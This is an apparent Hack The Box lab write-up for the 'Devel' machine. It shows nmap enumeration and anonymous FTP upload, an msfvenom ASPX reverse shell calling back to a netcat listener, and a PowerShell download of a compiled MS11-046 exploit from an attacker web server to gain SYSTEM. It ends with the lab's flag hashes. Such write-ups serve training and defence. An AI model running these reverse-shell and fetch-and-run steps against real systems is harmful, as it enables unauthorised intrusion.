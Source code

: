 # Devel

`nmap` | `privesc` | `ftp` | `reverse shell to aspx webserver` | `file transfer`

## Enumeration

1. Scan with nmap

   ```
   ┌──(schoon3r㉿nexer)-[~/Engagements/THM]
   └─$ nmap 10.10.10.5 -A -T4 -Pn
   Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-24 20:03 EST
   Nmap scan report for 10.10.10.5
   Host is up (0.034s latency).
   Not shown: 998 filtered tcp ports (no-response)
   PORT   STATE SERVICE VERSION
   21/tcp open  ftp     Microsoft ftpd
   | ftp-anon: Anonymous FTP login allowed (FTP code 230)
   | 03-18-17  01:06AM       <DIR>          aspnet_client
   | 03-17-17  04:37PM                  689 iisstart.htm
   |_03-17-17  04:37PM               184946 welcome.png
   | ftp-syst:
   |_  SYST: Windows_NT
   80/tcp open  http    Microsoft IIS httpd 7.5
   |_http-server-header: Microsoft-IIS/7.5
   |_http-title: IIS7
   | http-methods:
   |_  Potentially risky methods: TRACE
   Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 12.30 seconds
   ```

2. FTP - looks like we can login with user anonymous
   ```
   ftp 10.10.10.5
   ```
3. Let's try to upload a file

   ```
   (in Kali)
   ┌──(schoon3r㉿nexer)-[~/Engagements/HTB]
   └─$ echo "Hello World" > text.txt

   (in FTP)
   tp> ls
   200 PORT command successful.
   125 Data connection already open; Transfer starting.
   03-18-17  01:06AM       <DIR>          aspnet_client
   03-17-17  04:37PM                  689 iisstart.htm
   11-25-21  03:25AM                   12 text.txt
   03-17-17  04:37PM               184946 welcome.png
   226 Transfer complete.
   ```

4. Cool. Let's look at the other service that is open.
5. Port 80. Let's try it on the browser. >>> Looks like an IIS default page.
6. Let's try and go to the pages that was inside the ftp directory
   - http://10.10.10.5/iisstart.htm
   - http://10.10.10.5/text.txt

## Starting a FootHold

7. So from here... we want to get a foothold on the server. We know we can upload a file and we know we can view the file from the browser. Let's turn to MSFVENOM
   ```
   msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.6 LPORT=4444 -o reverse-shell.aspx
   ```
   - -p is the location of our payload
   - -f is the format of the payload. Its ASPX because of the webserver
8. That will save a file reverse-shell.aspx to your directory. What will this payload do??? It creates a reverse shell to our netcat listener.
9. Let's now upload this file using our FTP anonymous login
10. Now let's start a netcat listener
    ```
    nc -nvlp 4444
    ```
11. Let us now go back to the browser to start the reverse shell
    ```
    http://10.10.10.5/reverse-shell.aspx
    ```
12. You will see that you now got a reverse shell in your netcat listener window
13. Lets traverse the directory.
14. You will find out that you do not have permission to view Babis and Administrator directories. This means that we need privesc.

## Enumerating for PrivEsc

15. let's type in:

    ```
    c:\Users>cd Classic .NET AppPool
    cd Classic .NET AppPool
    Access is denied.

    c:\Users>systeminfo
    systeminfo

    Host Name:                 DEVEL
    OS Name:                   Microsoft Windows 7 Enterprise
    OS Version:                6.1.7600 N/A Build 7600
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Standalone Workstation
    OS Build Type:             Multiprocessor Free
    Registered Owner:          babis
    Registered Organization:
    Product ID:                55041-051-0948536-86302
    Original Install Date:     17/3/2017, 4:17:31 ��
    System Boot Time:          25/11/2021, 3:04:29 ��
    System Manufacturer:       VMware, Inc.
    System Model:              VMware Virtual Platform
    System Type:               X86-based PC
    Processor(s):              1 Processor(s) Installed.
                            [01]: x64 Family 6 Model 79 Stepping 1 GenuineIntel ~2100 Mhz
    BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
    Windows Directory:         C:\Windows
    System Directory:          C:\Windows\system32
    Boot Device:               \Device\HarddiskVolume1
    System Locale:             el;Greek
    Input Locale:              en-us;English (United States)
    Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
    Total Physical Memory:     3.071 MB
    Available Physical Memory: 2.430 MB
    Virtual Memory: Max Size:  6.141 MB
    Virtual Memory: Available: 5.514 MB
    Virtual Memory: In Use:    627 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    HTB
    Logon Server:              N/A
    Hotfix(s):                 N/A
    Network Card(s):           1 NIC(s) Installed.
                            [01]: vmxnet3 Ethernet Adapter
                                    Connection Name: Local Area Connection 3
                                    DHCP Enabled:    No
                                    IP address(es)
                                    [01]: 10.10.10.5
                                    [02]: fe80::58c0:f1cf:abc6:bb9e
                                    [03]: dead:beef::23c
    ```

16. A few interesting thing here is that

    - Its a Windows 7 Build 7600
    - Hotfix: N/A
    - It is based on the X86 architecture

17. While this is a very old pc, seems funny that there are no patches on the machine. Let's google
    ```
    Windows 7 build 7600 priv esc exploit
    ```
18. The first 2 results are from Exploit-DB. Let's check out the Build 7601(x86) - Local Priv Esc... which is exactly what we want.

## PrivEsc

19. Download the exploit and read the instructions on how to compile the exploit in C
20. Install mingw-w64
    ```
    sudo apt-get install mingw-w64
    ```
21. Compile the C program you've downloaded
    ```
    i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
    ```
22. Now we need to copy this file... into the C:\ drive of the target machine. Let's turn on a simple http server and copy the file
    ```
    python3 -m http.server 7331
    ```
23. Now from the netcat listener window... lets copy the file
    ```
    powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.6:7331/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
    ```
24. Let's verify if the file is copied? Great! Let's run it ~
    ```
    c:\Users\Public\Downloads>40564
    40564
    ```
25. Looks good! Let's try a few command to be certain we have root priv
    ```
    c:\Windows\System32>whoami
    whoami
    nt authority\system
    ```
26. Now we can get both user and root flags

    ```
    c:\Users\babis\Desktop>type user.txt.txt
    type user.txt.txt
    9ecdd6a3aedf24b41562fea70f4cb3e8

    c:\Users\Administrator\Desktop>type root.txt
    type root.txt
    e621a0b5041708797c4fc4728bc72b4b
    ```

# Reference

1. https://www.exploit-db.com/exploits/40564
2. https://www.offensive-security.com/metasploit-unleashed/msfvenom/

# Summary

1. We enumerated the machine using nmap and found ports 21 and 80 open
2. We found that we can upload file using the anonymous login and we can execute those file within the webserver on port 80
3. We tried to get a foothold of the machine using an MSFVENOM payload with an aspx format.
4. Once we got the reverse shell, we immediately found that we dont have a privileged user.
5. To privesc... we enumerated the machine again and found that it is an unpatched Windows 7 machine with build 7600 (x86)
6. Googling for exploit we found a link to an exploit in exploit-db
7. Installed mingw to compile the C code into an executable program and thankfully the command to complile is already provided in the link.
8. We then started a simple http server so can transfer the file into the machine and downloaded the file using a powershell script.
9. After this, we found that we now have root priv.
